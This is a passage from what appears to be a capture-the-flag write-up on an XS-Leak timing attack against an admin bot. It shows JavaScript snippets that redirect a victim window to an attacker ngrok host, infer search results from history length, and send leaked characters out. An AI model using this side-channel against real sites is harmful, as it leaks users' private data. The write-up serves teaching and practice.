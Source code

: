 ``` html
        }
      }

      setTimeout(() => {
        run()
      }, 1000)
      
    </script>
</body>
</html>
```

There are actually a few details here. The first detail is the last part:

``` js
setTimeout(() => {
  run()
}, 1000)
```

Why wait for one second before starting to run? Because the bot has a piece of code that is:

``` js
await page.goto(url.href, {waitUntil: 'networkidle0', timeout: 2000})
await delay(5000) /// waiting 5 second.
```

It waits for `networkidle0` before waiting for five seconds. I tried it myself and found that if I didn't stop for a second and started running directly, `networkidle0` wouldn't seem to trigger. So it becomes running to `timeout: 2000`, with only 2 seconds of execution time, and everything will fail. Later, I added this part.

The second detail is the number of seconds in this section:

``` js
setTimeout(() => {
  win.location = 'http://e050-220-133-126-220.ngrok.io/non.html'
  setTimeout(() => {
    if (win.history.length === 3) {
      send('success:' + keyword)
    } else {
      //send('fail:' + keyword)
    }
    win.close();
  }, 1000) // 這裡
}, 1500) // 跟這裡
```

This is a value that I manually tried a few times and found to be ok. Because if there is a note search, it will redirect after 1 second. If it redirects back to its own page earlier than this value, it will fail. So I chose 1.5 seconds, and it takes another second to redirect back to its own page. If you want to be more precise, you can use [Cross-window Timing Attacks](https://xsleaks.dev/docs/attacks/timing-attacks/network-timing/#cross-window-timing-attacks), which can be much more accurate.

The last detail is this part: `let chars = '_abcdefghijklmnopqrstuv'.split('')`. Because my script runs too slowly, if I want to leak all characters (38 in total), it will not finish running. So I have to manually cut it in half and submit the URL twice to leak out one character.
